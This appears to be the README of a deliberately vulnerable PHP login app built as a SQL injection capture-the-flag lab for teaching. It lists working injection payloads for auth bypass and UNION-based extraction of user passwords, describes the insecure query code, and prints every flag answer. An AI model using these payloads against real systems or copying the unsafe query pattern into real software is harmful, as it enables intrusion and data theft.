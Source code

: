 # 🏴‍☠️ SQL Injection CTF Challenge

A deliberately vulnerable login system designed for learning SQL injection techniques in a safe environment. This CTF challenge simulates a corporate employee portal with intentionally vulnerable authentication.

## 📋 Prerequisites

- PHP 7.4+ with PDO MySQL extension
- MySQL/MariaDB server
- Web server (Apache/Nginx) or PHP built-in server

## 🚀 Quick Setup

### Option 1: Manual Setup

#### 1. Database Setup
```bash
# Connect to MySQL as root
mysql -u root -p

# Run the setup script
source setup.sql
```

#### 2. Configure Database Connection
The application uses environment variables for database configuration. You can either:

**Option A: Set Environment Variables**
```bash
export DB_HOST=localhost
export DB_NAME=ctf_sql
export DB_USER=root
export DB_PASS=your_password
```

**Option B: Edit db.php directly**
```php
$host = 'localhost';
$dbname = 'ctf_sql';
$username = 'root';
$password = 'your_password';
```

#### 3. Start the Web Server
```bash
# Using PHP built-in server
php -S localhost:8000

# Or configure your web server to serve the ctf-sqli directory
```

#### 4. Access the Application
Open your browser and navigate to: `http://localhost:8000`

## 🎯 CTF Challenge

### Objective
Bypass the login authentication using SQL injection to retrieve the hidden CTF flags from the SecureCorp employee portal.

### Available Users (Legitimate Credentials)
- Username: `admin`, Password: `admin`
- Username: `user1`, Password: `password123`
- Username: `test`, Password: `vader`
- Username: `guest`, Password: `DontHackME`
- Username: `superadmin`, Password: `potato` (hidden user)

## 🔥 SQL Injection Examples

### Basic Authentication Bypass
```
Username: admin' --
Password: anything
```

### Union-Based Injection
```
Username: ' UNION SELECT 1,2,3,4,5 -- 
Password: anything
```

### Boolean-Based Injection
```
Username: admin' AND 1=1 --
Password: anything
```

### Error-Based Injection
```
Username: ' OR 1=1 --
Password: anything
```

### Advanced Techniques

#### Get All Users
```
Username: ' OR 1=1 ORDER BY id --
Password: anything
```

#### Get Specific User Data
```
Username: ' UNION SELECT id,username,password,flag,created_at FROM users WHERE username='admin' --
Password: anything
```

#### Database Information
```
Username: ' UNION SELECT 1,2,3,4,@@version --
Password: anything
```

## 🏆 CTF Flags

The application contains multiple flags to discover:

1. **flag{sql_injection_master}** - Admin user flag
2. **flag{user_level_access_granted}** - User1 flag
3. **FLAG{TEST_ACCOUNT_COMPROMISED}** - Test user flag
4. **FLAG{GUEST_PRIVILEGES_ESCALATED}** - Guest user flag
5. **FLAG{SUPER_ADMIN_ACCESS_ACHIEVED}** - Hidden superadmin flag

## 🛡️ Security Notes

⚠️ **IMPORTANT**: This application is intentionally vulnerable for educational purposes only. Never deploy this code in a production environment!

### Vulnerabilities Included:
- No input sanitization
- Direct string concatenation in SQL queries
- No prepared statements
- Error messages exposed
- No password hashing
- SQL injection in login form

### How to Fix (For Learning):
1. Use prepared statements
2. Implement input validation
3. Hash passwords
4. Hide error messages
5. Use parameterized queries

## 📁 File Structure

```
ctf-sqli/
├── index.html          # Login form (SecureCorp employee portal)
├── style.css           # Styling for the application
├── login.php           # Vulnerable login handler
├── db.php              # Database connection configuration
├── setup.sql           # Database schema and test data
├── .gitignore          # Git ignore rules
└── README.md           # This file
```

## 🎓 Learning Objectives

1. Understand SQL injection vulnerabilities
2. Learn common injection techniques
3. Practice manual SQL injection
4. Understand the importance of input validation
5. Learn secure coding practices
6. Experience real-world application security testing

## 🔧 Troubleshooting

### Common Issues:

1. **Database Connection Failed**
   - Check MySQL service is running
   - Verify credentials in `db.php` or environment variables
   - Ensure database exists

2. **Permission Denied**
   - Check file permissions
   - Ensure web server can read files

3. **PDO Extension Missing**
   - Install PHP PDO MySQL extension
   - Restart web server

4. **Environment Variables Not Working**
   - Check if your web server supports environment variables
   - Fall back to editing `db.php` directly

## 📚 Additional Resources

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PHP Security Best Practices](https://www.php.net/manual/en/security.php)

